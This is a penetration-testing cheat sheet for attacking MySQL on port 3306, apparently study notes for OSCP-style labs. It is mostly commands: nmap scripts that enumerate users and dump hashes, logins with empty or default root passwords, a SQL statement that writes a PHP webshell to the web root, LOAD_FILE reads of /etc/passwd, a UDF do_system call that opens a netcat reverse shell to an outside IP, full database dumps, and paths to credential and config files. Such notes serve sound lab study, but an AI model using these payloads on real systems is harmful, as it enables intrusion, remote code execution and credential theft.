 ```yaml
---
title: "3306 - MySQL"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - mysql
toc: true
hide_title: true
excerpt: ""
---
```


## Nmap

```
nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip -p 3306

nmap -sV -Pn -vv -script=mysql* $ip -p 3306
```
## Connecting to MsSQL from Target

```
mysql -u root 
# Connect to root without password

mysql -u root -p 
# A password will be asked

# Always test root:root credential
```

## Connecting to MsSQL from Attacker

```
mysql -u julio -pPassword123 -h 10.129.20.13
```

## MySQL Commands

| **Command** | **Description** |
|-------------|-----------------|
| `SHOW DATABASES;` | List all available databases in MySQL. |
| `USE htbusers;` | Select the `htbusers` database. |
| `SHOW TABLES;` | List all tables in the currently selected database. |
| `SELECT * FROM users;` | Retrieve all entries from the `users` table. |
| `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';` | Write a PHP webshell to disk using MySQL's file output capability. |
| `SHOW VARIABLES LIKE "secure_file_priv";` | Check MySQL's file read/write restriction directory. |
| `SELECT LOAD_FILE("/etc/passwd");` | Attempt to read a local file using MySQL. |


## If running as root

```
select do_system('nc 192.168.49.136 8080 -e /bin/bash');
```

## Getting all the information from inside the database

```
mysqldump -u admin -p admin --all-databases --skip-lock-tables 
```

## Post Enumeration

Here are list of some files to check after shell on target system to get some credentials or some juicy information that help to get root easily

## Configuration file

### Unix

```
my.cnf
/etc/mysql
/etc/my.cnf
/etc/mysql/my.cnf
/var/lib/mysql/my.cnf
~/.my.cnf
/etc/my.cnf
```

### Windows

```
config.ini
my.ini
windows\my.ini
winnt\my.ini
<InstDir>/mysql/data/
```

## Command History

```
~/.mysql.history
```

## Log Files

```
connections.log
update.log
common.log
```

## Finding passwords to MySQL

```
/var/www/html/configuration.php
```
